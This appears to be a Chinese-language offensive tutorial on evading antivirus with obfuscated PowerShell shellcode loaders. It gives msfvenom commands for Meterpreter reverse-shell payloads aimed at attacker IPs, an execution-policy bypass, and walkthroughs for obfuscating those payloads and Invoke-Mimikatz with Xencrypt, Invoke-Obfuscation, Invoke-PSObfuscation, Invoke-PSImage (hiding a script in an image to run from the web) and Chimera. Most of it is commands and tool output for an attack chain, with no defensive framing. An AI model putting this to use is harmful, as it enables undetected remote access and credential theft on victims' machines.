 # POWERSHELL混淆免杀shellcodeloader

00 

可以在PowerShell中执行命令来查看和设置执行策略，如果需要执行Powershell脚本程序，需要使用管理员权限将Restricted改为Unrestricted。

```
Get-ExecutionPolicy 
Set-ExecutionPolicy Unrestricted
powershell.exe -ExecutionPolicy Bypass -File .\test1.ps1
```

payload 生成

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.121 lport=4444 --arch x64 --platform wiindows -f psh-reflection -o 4444.ps1
```

1.XencryptX 加密  (  项目： [the-xentropy/xencrypt: A PowerShell script anti-virus evasion tool (github.com)](https://github.com/the-xentropy/xencrypt)

```
Import-Module ./xencrypt.ps1
Invoke-Xencrypt -InFile invoke-mimikatz.ps1 -OutFile xenmimi.ps1
迭代次数
Invoke-Xencrypt -InFile invoke-mimikatz.ps1 -OutFile xenmimi.ps1 -Iterations 100
```

2.[Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation) powershell混淆免杀

```
Import-Module ./Invoke-Obfuscation.psd1
Invoke-Obfuscation

set scriptpath +文件位置
选择混淆方式为 TOKEN\ALL
保存混淆之后的脚本
out out.ps1
```

3.ps2exe 把powershell转化成exe去执行

4.[Invoke-PSObfuscation](https://github.com/gh0x0st/Invoke-PSObfuscation) powershell混淆免杀

```
┌──(tristram㉿kali)-[~]
└─$ pwsh 
PowerShell 7.1.3
Copyright (c) Microsoft Corporation.

https://aka.ms/powershell
Type 'help' to get help.

PS /home/kali> msfvenom -p windows/meterpreter/reverse_https LHOST=127.0.0.1 LPORT=443 EXITFUNC=thread -f ps1 -o meterpreter.ps1
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 686 bytes
Final size of ps1 file: 3385 bytes
Saved as: meterpreter.ps1
PS /home/kali> . ./Invoke-PSObfuscation.ps1                                                                                        
PS /home/kali> Invoke-PSObfuscation -Path ./meterpreter.ps1 -Integers -Variables -OutFile o-meterpreter.ps1                     

     >> Layer 0 Obfuscation
     >> https://github.com/gh0x0st

[*] Obfuscating integers
[*] Obfuscating variables
[*] Writing payload to o-meterpreter.ps1
[*] Done
```

5.[Invoke-PSImage](https://github.com/peewpw/Invoke-PSImage)

Create an image with the script "Invoke-Mimikatz.ps1" embeded in it and output a oneliner to execute from disk:

```
PS>Import-Module .\Invoke-PSImage.ps1
PS>Invoke-PSImage -Script .\Invoke-Mimikatz.ps1 -Out .\evil-kiwi.png -Image .\kiwi.jpg
   [Oneliner to execute from a file]
```



Create an image with the script "Invoke-Mimikatz.ps1" embeded in it and output a oneliner to execute from the web (you still have to host the image and edit the URL):

```
PS>Import-Module .\Invoke-PSImage.ps1
PS>Invoke-PSImage -Script .\Invoke-Mimikatz.ps1 -Out .\evil-kiwi.png -Image .\kiwi.jpg -WebRequest
   [Oneliner to execute from the web]
```

6.**[Chimera](https://github.com/tokyoneon/Chimera)**

  Clone the repository. Tested in Kali v2020.3.

```
sudo apt-get update && sudo apt-get install -Vy sed xxd libc-bin curl jq perl gawk grep coreutils git
sudo git clone https://github.com/tokyoneon/chimera /opt/chimera
sudo chown $USER:$USER -R /opt/chimera/; cd /opt/chimera/
sudo chmod +x chimera.sh; ./chimera.sh --help
```

  Basic usage.

```
./chimera.sh -f shells/Invoke-PowerShellTcp.ps1 -l 3 -o /tmp/chimera.ps1 -v -t powershell,windows,\
copyright -c -i -h -s length,get-location,ascii,stop,close,getstream -b new-object,reverse,\
invoke-expression,out-string,write-error -j -g -k -r -p
```

Review the [usage guide](https://github.com/tokyoneon/Chimera/blob/master/USAGE.md) and [write-up](https://null-byte.com/bypass-amsi-0333967/) for more examples and screenshots.
